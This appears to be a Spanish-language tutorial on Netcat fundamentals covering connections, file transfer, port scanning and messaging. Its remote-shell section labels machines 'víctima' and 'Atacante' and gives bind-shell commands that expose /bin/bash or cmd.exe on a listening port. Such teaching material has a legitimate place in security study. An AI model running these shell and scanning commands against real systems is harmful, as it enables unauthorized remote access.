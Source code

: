 # Netcat Fundamentals

## 1. ¿Qué es Netcat?
Netcat (**nc**) es una herramienta de línea de comandos para leer y escribir datos a través de conexiones de red utilizando protocolos TCP o UDP.  
Es conocida como la **"navaja suiza" de las redes** porque permite:
- Conexiones entre máquinas.
- Transferencia de archivos.
- Creación de shells remotas.
- Depuración de puertos y servicios.

---

## 2. Funcionamiento básico
Netcat trabaja estableciendo conexiones en un puerto específico y enviando/recibiendo datos como si fuera una comunicación directa entre terminales.

**Modos de uso:**
- **Cliente** → se conecta a un host y puerto.
- **Servidor** → escucha en un puerto y espera conexiones.

---

## 3. Conexión de Linux a Linux

### En la máquina que escucha (Servidor)
```bash
nc -lvp 4444
```
- `-l` → listen (escuchar).
- `-v` → verbose (modo detallado).
- `-p` → puerto a usar.

### En la máquina que se conecta (Cliente)
```bash
nc <IP_del_servidor> 4444
```
Una vez conectadas, cualquier texto escrito en una máquina aparecerá en la otra.

---

## 4. Conexión de Linux a Windows
**En Windows (servidor):**
```powershell
nc.exe -lvp 4444
```

**En Linux (cliente):**
```bash
nc <IP_Windows> 4444
```
Funciona igual que entre Linux, siempre que Netcat esté instalado en Windows.

---

## 5. Transferencia de archivos

### De Linux a Linux
**En el receptor:**
```bash
nc -lvp 4444 > archivo_recibido.txt
```
**En el emisor:**
```bash
nc <IP_destino> 4444 < archivo_original.txt
```

### De Linux a Windows
**En Windows (receptor):**
```powershell
nc.exe -lvp 4444 > archivo_recibido.txt
```
**En Linux (emisor):**
```bash
nc <IP_Windows> 4444 < archivo_original.txt
```

---

## 6. Uso como Shell Remota

### Linux víctima (servidor con shell)
```bash
nc -lvp 4444 -e /bin/bash
```

### Windows víctima (servidor con shell)
```powershell
nc.exe -lvp 4444 -e cmd.exe
```

### Atacante (cliente)
```bash
nc <IP_víctima> 4444
```
Esto dará una shell remota del sistema víctima.

---

## 7. Escaneo de puertos con Netcat
```bash
nc -v -z <IP> 20-1000
```
- `-z` → modo de escaneo (sin enviar datos).
- Muestra qué puertos están abiertos.

---

## 8. Envío de mensajes simples
```bash
echo "Hola mundo" | nc <IP> 4444
```


